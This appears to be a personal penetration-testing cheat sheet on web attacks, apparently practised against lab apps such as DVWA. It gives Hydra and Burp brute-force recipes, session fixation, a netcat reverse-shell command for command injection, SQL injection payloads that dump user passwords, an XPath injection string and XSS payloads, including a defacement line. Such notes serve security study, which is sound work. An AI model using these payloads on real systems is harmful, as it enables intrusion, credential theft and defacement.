 # Website penetration testing

## Tables des matière
 - [Whatweb](#Whatweb)
 - [Dirb](#Dirb)
 - [Burp Suite](#Burp-Suite)
 - [Hydra](#Hydra)
 - [Session fixation](#Session-fixation)
 - [Injection attack](#Injection-attack)
 - [XML Injection](#XML-Injection)
 - [XSS Reflected](#XSS-Reflected)
 - [XSS Stored](#XSS Stored)
 - [Hydra](#Hydra)


### Whatweb

Web scanner (mettre en plus)

### Dirb

Web Content Scanner (mettre en plus)

### Burp Suite

	Brute force a field --> In your POST method packet --> Send to intruder --> Go to intruder 
	--> select the right field in the http request in the Position tab 
	--> select "Sniper" attack type (for brute force one field)
	--> In Payload options, load a file with some words in order to test each of them.
	--> Click on "start attack"

	Brute force somes fields --> In your POST method packet --> Send to intruder --> Go to intruder 
	--> select rights fields in the http request in the Position tab 
	--> select "Clsuter bomb" attack type (for brute force some fields)
	--> In Payload options, select your "payload set" and load a list which match with the right payload. 
	Do that for every payload that you selected.
	--> You can add an option in order see if a revelant string appears in the html request.
	Go to options and add the string in "Grep - Match" 
	--> Click on "start attack"
	
### Hydra  

Brute forcer faster than burpsuite

command -> `hydra <IP_address> http-<method>-post "<path>:<username_name_field> = ^USER^&<password_name_field> = ^PASS^&<submit_name_field> = submit:<field that reconize where is wrong input> -L <path to user list> -P <path to pass list>`

### Session fixation
	
If you send a mail with an url, set another parameter that is `SID` with a number you want. When the victim click on the link and for example, login into a website, you can be able to request the website with the SID that you put into the fake url and enter into the website with the session ID of the victim who already login with his username and password.

### Injection attack

#### *Simple command injection*

Some servers are vulnerable to command injection. You can execute multiple commands separate by `;`.

You can directly connect this vulnerable website to your machine in order to execute command throught your terminal with netcat tool.
		
command on your machine --> `nc -l -v -p <port_you_want_listening_on>`

command --> `nc.traditional -e <path_to_your_bash ?/bin/bash?> <ip_adress_of_your_machine> <port_you_listening_on>` 

#### *Blind command injection*
	
In order to see if the website is vulnerable to command injection, ping 2 machines. See in wireshark if the pings works.

#### *SQL Basics* 
		
Keyword to request te database : `CREATE; SELECT; UPDATE; INSERT; DELETE; DROP;` 
	
#### *SQL Injection*
			
Most Common check for SQL injection is to type `'` in the iput.
	
You can use `#` to skip the last '. --> `2' SELECT 1,2 #'`

In order to see how many columns are in the database, use `ORDER BY` -->  `ORDER BY 1`... `ORDER BY 2`... `ORDER BY 3`... `ORDER BY 4`... 

You can select all of these by tiping `UNION SELECT 1,2,3`...
		
*Database name* : `database()`, user link to the database : `user()`

*Common table in databases* : 
	
			information_schema.schemata --> schema_name (database name)
			information_schema.tables --> table_name --> You must specifie the condition : WHERE table_schema = '<database_name>
			information_schema.columns --> column_name, column_type --> You must specifie the condition : WHERE table_name = '<table_name> 
			
Uses the function Concat() to gather some informations in a request --> `2' UNION SELECT CONCAT(user_id, '-',first_name, ' ', last_name), CONCAT(user, '-', password) FROM dvwa.users #'`

#### *SQL Blind Injection* :

Brute force to find the name of the database... --> Intruder burpsuite.

### XML Injection :

Some XML vulnerability can be discover by the symbol `'` like SQL Injection, if there is no input, you can modify the http sending packet and add a `'` after the option you selected

You can display all the dabase by add --> `')]/*|//*[contains('1','1`
		
##### *Automate XML Injection* : 

xcat : `apt-get install python3-pip; pip3 install xcat;`

### XSS Reflected

You can perform an XSS reflected attack by find this vulnerability in a website and execute some malicious code (or not) and send the link to someone (in order to steal cookies or to hijack a session). 
		
You can see if the web site is vulnerable tiping `<script><run_a_script_or_a_command></script>`. Example : `<script>alert('Hello')</script>`

This attack can be perform on a specific target.

### XSS Stored

XSS Stored attack means that everyone who visits the web site where you find XSS vulnerability will be a victim of your malicious code. It's stored in the web site himself (For example in a forum)

You can run a script which send some informations to your server.

#### *Changing HTML code with XSS* :

	<img src=x onerror="document.body.innerHTML='<title>YOU HAVE BEEN HACKED</title>'">
	
#### *Automate XSS* :

##### **xsser** : detect XSS vulnerabilities 

command : `xsser -u '<ip_adress>' -g '<url>?<parameter1> =XSS&<parameter2> =XSS`... 

example : `xsser -u 'http://192.168.1.17' -g '/bodgeit/search.jsp?q=XSS'`. You must specifie "XSS" on each parameter you want to detect XSS vulnerability.

##### *xsssniper* : detect XSS vulnerabilities
			
command : `python3 xsssniper.py -u <full_url>?<parameter1>=`

example : `python3 xsssniper.py -u http://192.168.1.17/bodgeit/search.jsp?q=`
					
